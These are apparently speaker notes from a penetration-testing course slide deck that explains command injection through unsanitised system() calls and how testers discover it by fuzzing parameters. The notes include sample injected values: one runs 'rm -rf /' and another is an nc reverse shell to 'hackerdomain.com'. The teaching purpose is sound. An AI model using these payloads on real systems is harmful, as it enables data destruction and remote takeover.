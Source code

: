 Note:



Many applications used to be written in Unix shell scripts, such as BASH and PERL, and the variable separation was rather crude.  Even worse, often these scripts incorporated calls to external applications.  Such a call often looked like this:
    system("externaltool ".variable);
where the variable was input from the web application.  If the input included a ";"  additional commands could be executed.  

For example, imagine a script which calls an external program to authenticate the user.  An attacker types the following text in the "username" field in the web interface:
"ura" 

.And then types the following text into the "password" field: 
"l00ser; rm -rf /".

This translates to the following:
    system('authenticate ura:l00ser; rm -rf /')

If the script is running with root privileges, then the attacker has deleted the contents of the root partition. 

How about a password of "; /usr/bin/nc -e /bin/sh hackerdomain.com 31337"?




---



# Discovering Command Injection



- Command injection involves parameters used in OS commands
	- Such as web-based utilities
- The tester should examine all parameters
	- But focus on ones that appear to be used on the system
- Example:
	- New accounts require a directory to store configs
	- Application accepts the following parameter
		- Username
	- It then runs
		- mkdir username

Note:



Discovering command injection is as simple as any other injection.  We look at each parameter and determine if it is used as part of an operating system command.  We then fuzz it to see what happens.



---



Command Injection Results
